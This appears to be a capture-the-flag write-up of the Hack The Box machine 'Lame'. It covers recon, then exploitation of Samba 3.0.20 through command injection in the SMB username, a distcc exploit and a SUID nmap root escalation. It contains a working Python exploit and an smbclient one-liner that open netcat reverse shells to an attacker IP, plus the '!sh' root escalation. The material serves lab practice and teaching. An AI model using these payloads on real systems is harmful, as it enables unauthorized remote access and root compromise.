# Lame

**Difficulty: **<mark style="color:green;">**EASY**</mark>

## Reconnaissance

### Nmap

```java
Nmap scan report for 10.10.10.3                                                                                                                                                                     
Host is up (0.071s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-03-24T23:45:31-04:00
|_clock-skew: mean: -2h59m31s, deviation: 2h49m44s, median: -4h59m33s
```

### vsftp Recon

Starting out by making some recon on the **ftp** server with the version **2.3.4** we see in **searchsploit** that there is an exploit that get us access to the system.

I will let this for later.&#x20;

<figure><figcaption></figcaption></figure>

### Samba 3.0 Recon

Using **smbmap** to see if using no credentials, we can see something.

<figure><figcaption></figcaption></figure>

In effect we see that there is a directory called **tmp**.

<figure><figcaption></figcaption></figure>

There are some directories to get in, but there is nothing special so, I'll use searchsploit to see if there is an exploit for **samba 3.0.**

<figure><figcaption></figcaption></figure>

Here we found an exploit for it, let's see what's inside.

<figure><figcaption></figcaption></figure>

Analyzing the script, we see that once you connect to the samba service, in the username credentials we inject the payload using '**\`**' following by the reverse shell that we want and closing with it too.&#x20;

We need to use **ntlmv1** too as the script is doing. &#x20;

### Distccd checker

<figure><figcaption></figcaption></figure>

Using nmap and their checker scripts, we can check if the service **3632(Distccd)** is vulnerable, in fact is it.

## Exploitation

### vsFTP

The **vsftp service** in this machine is not vulnerable, the reason is because the version that is using is a version from **2011** and over.&#x20;

<figure><figcaption></figcaption></figure>

### SAMBA 139/tcp + 445/tcp

So, knowing all the information to make the exploit, I create a simple script in python3 to exploit this.

Before to run the script you need to change some things to the script and been listening with a **netcat** session.


```python
#!/usr/bin/python3

from smb.SMBConnection import SMBConnection
import sys

target_ip = sys.argv[1]
port = 139

def get_shell(target_ip, port): # 139 by default

    username = "` " + "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" + " `" # Change the IP to your IP and the port if is necessary

    connection = SMBConnection(username, "na", "na", "na")

    connection.connect(target_ip,int(port))


if __name__ == '__main__':

    get_shell(target_ip, port)
```


<figure><figcaption></figcaption></figure>

As you can see, we get access, and we rooted the machine by exploiting the **samba 3.0 service**.&#x20;

You can exploit this using this one liner by using smbclient, more easy.

```bash
smbclient  //10.10.10.3/tmp -N --command='logon "/=`nohup nc 10.10.14.25 443 -e /bin/bash`"' --option='client min protocol=NT1'
```

### Distccd - 3632

To exploit **distccd service** I'll use an exploit from **github.**

* [https://github.com/angelpimentell/distcc\_cve\_2004-2687\_exploit](https://github.com/angelpimentell/distcc\_cve\_2004-2687\_exploit)

<figure><figcaption></figcaption></figure>

Download the script and executed as in the following image.

<figure><figcaption></figcaption></figure>

Now I want to upgrade my shell so I will send a bash with netcat to the port 4444.

<figure><figcaption></figcaption></figure>

Now start upgrading your **tty** using the following commands:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo ; fg
reset
export TERM=xterm
export SHELL=bash
```

### Privesc (Distccd)

Once done that, start enumerating possible ways to exploit manually the linux system.

<figure><figcaption></figcaption></figure>

We're seeing here that the nmap binary is running as suid, to expoloit this type;

```
nmap --interactive
!sh
```

<figure><figcaption></figcaption></figure>

In result you will get a shell as the root user.
